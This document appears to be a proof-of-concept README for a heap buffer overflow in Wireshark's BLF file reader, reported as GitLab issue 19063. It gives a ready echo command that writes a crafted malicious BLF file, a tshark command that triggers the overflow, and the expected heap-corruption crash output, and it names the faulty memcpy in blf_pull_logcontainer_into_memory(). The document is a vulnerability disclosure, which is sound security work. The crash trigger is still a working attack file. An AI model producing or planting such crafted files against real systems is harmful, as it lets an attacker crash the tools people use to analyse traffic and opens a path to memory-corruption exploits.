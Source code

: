 # Wireshark BLF Reader Heap Buffer Overflow Vulnerability

## POC URL
This vulnerability was reported on GitLab: [Heap buffer overflow vulnerability in BLF reader (#19063)](https://gitlab.com/wireshark/wireshark/-/issues/19063)

## Compilation Environment
- Tested on: Ubuntu 22.04.2 LTS
- Wireshark version: Vulnerable versions (specific version not mentioned in report)

## Run Command
1. First, create the malicious BLF file:
```bash
echo -ne 'LOGG0...0000000000000000000000000000000000000000000000000000000000000000LOBJ............\x10\x00\x01\x00\x0f\x00\x00\x00\x0a\x00\x00\x00\x02\x000000000000000000000000000000000000000000000000' > trigger.blf
```

2. Then run tshark to trigger the vulnerability:
```bash
tshark -r trigger.blf
```

## Expected Output
The program should crash with an error message similar to:
```
malloc(): corrupted top size
Aborted
```

This indicates that a heap buffer overflow has occurred, corrupting memory and causing the program to abort. The vulnerability occurs when processing a maliciously crafted BLF file in the `blf_pull_logcontainer_into_memory()` function, where a memcpy operation copies more data than the allocated buffer can hold.